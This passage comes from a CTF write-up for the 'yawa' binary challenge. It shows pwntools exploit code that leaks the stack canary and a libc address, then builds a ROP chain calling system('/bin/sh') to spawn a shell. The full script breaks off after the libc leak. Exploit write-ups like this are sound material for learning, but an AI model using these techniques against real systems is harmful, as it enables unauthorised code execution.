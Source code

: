 ##### Code

```python
rop =ROP(libc)
ret = libc.address + 0x00000000000f8c92
rop.system(next(libc.search(b'/bin/sh\x00')))

payload= b'A'*88 + p64(canary)

# offsets to rip = 104
payload+= b'A'*(104-len(payload))
payload += p64(ret)
payload += rop.chain()
io.sendline(payload)
io.sendline(b'100')
io.interactive()
```

##### Execution

![Flag](/images/yawa-ductf5/flag.png)

##### Full Script

```python

from pwn import *
if args.REMOTE:
    io = remote(sys.argv[1],sys.argv[2])
else:
    io = process("./yawa_patched", )
elf = context.binary = ELF("./yawa_patched", checksec=False)

libc = ELF('./libc.so.6')

# 0x7fffffffdce8 last in stack can reach

context.log_level = 'info'
offset_canary = 88
offset_to_return = 104


io.recvuntil(b'> ')
io.sendline(b'1')
pause()
info('Leaking Canary')
payload = 'A'*88
io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b'2')
print(io.recvline())
canary = u64(b'\x00' + io.recv(7))
print(hex(canary))



io.recvuntil(b'> ')
io.sendline(b'1')
payload= 'A'*103 
info('Leaking LibC Address')
io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b'2')
io.recvline()
libc_addr = unpack(io.recv(6).ljust(8,b'\x00'))
```